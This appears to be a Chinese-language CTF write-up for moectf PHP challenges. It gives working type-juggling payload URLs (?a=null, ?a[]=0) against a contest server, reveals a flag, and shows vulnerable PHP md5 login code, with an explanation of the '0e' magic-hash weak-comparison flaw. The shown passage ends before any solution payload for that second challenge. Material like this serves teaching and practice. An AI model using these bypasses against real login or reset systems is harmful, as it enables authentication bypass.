 接受 get 参数 a，满足如下条件即可：

+ 不是 数字类型
+ $a == 0

因此下面的 payload 是**不对**的

```
http://39.108.11.206:10005/?a=0
```

php中 <code>==</code> 是弱相等，不需要类型一致，**类型转换后** 相等即可。
以下 payload 均可：

```
http://39.108.11.206:10005/?a=null
http://39.108.11.206:10005/?a[]=0
http://39.108.11.206:10005/?a=""
...
```

得到Flag

```
moectf{php_1s_weAk}
```

### PHP_md5()

> 题目地址：http://39.108.11.206:10007

```php
 <?php
error_reporting(0);
$flag = "xxxxxxxxxxxxxxxxxxxxxxxxxxx";
$username=$_GET['username'];
$passwd=$_GET['passwd'];
if(isset($username)&&isset($passwd)){
    if($username!=$passwd&&md5($username)==md5($passwd)){
        echo $flag;
    }else {
        echo "login failed";
    }
}else{
    echo "please input username and passwd";
}
?>
please input username and passwd
```

要求输入两个参数，这俩参数不一样，但是php md5 在'==' 下相等

> [PHP Hash比较存在缺陷，影响大量Web网站登录认证、忘记密码等关键业务](https://www.freebuf.com/news/67007.html)
>
> PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。
>
> [CTF中常见php-MD5()函数漏洞](https://blog.csdn.net/qq_19980431/article/details/83018232)
> 这篇博文中给出了一些 哈希值都是以”0E”开头 的特殊值
